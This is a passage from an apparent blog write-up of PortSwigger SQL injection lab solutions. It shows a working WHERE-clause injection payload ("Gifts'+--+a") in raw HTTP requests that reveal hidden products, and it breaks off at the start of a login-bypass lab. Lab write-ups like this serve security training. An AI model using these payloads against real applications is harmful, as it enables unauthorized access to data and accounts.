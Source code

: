 ```yaml
---
layout: post
title:  SQL Injection Labs
date:   2023-10-11 03:49:10 +0100
categories: sql-injection
post_id: 5
---
```


What follows is solution to various sql injection labs. The labs are from [Portswigger](https://portswigger.net) and [PentesterLab](https://pentesterlab.com).

## Portswigger Labs

### [Lab 1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

### Lab 1 Task

***This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:***

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

***To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.***

### Lab 1 Solution

Initial request to the product category endpoint:

```http
GET /filter?category=Gifts HTTP/2
Host: 0af2009f0450fade80d6941f008f0019.web-security-academy.net
Cookie: session=hGmkEl6IBiujl1QH2Hrwm8fpzk3qm5uB
Sec-Ch-Ua: "Google Chrome";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0af2009f0450fade80d6941f008f0019.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

The image below shows the response to the above request:

![lab1](https://ethic41.github.io/assets/images/posts/sql-injection-labs/2023-10-12_16-09_normal_response.png)

We can see from the above response only 3 products are displayed. To solve the lab we will attempt to comment out the `AND released = 1` part of the query and see if we can get the unreleased products. To do this we will use the `--` comment syntax. The `--` syntax comments out everything after it. So we will send the following request:

```http
GET /filter?category=Gifts'+--+a HTTP/2
Host: 0af2009f0450fade80d6941f008f0019.web-security-academy.net
Cookie: session=hGmkEl6IBiujl1QH2Hrwm8fpzk3qm5uB
Sec-Ch-Ua: "Google Chrome";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0af2009f0450fade80d6941f008f0019.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9


```

The image below shows the response to the above request:

![lab1](https://ethic41.github.io/assets/images/posts/sql-injection-labs/2023-10-12_17-27_response_with_injection.png)

We can see that 4 products are now displayed, which means we have successfully injected the query. And that's it for lab 1 we have successfully view an unreleased product.

![lab1](https://ethic41.github.io/assets/images/posts/sql-injection-labs/2023-10-12_17-31_lab1_solved.png)

### [Lab 2: SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

### Lab 2 Task

***This lab contains a SQL injection vulnerability in the login function.***

***To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user.***

### Lab 2 Solution

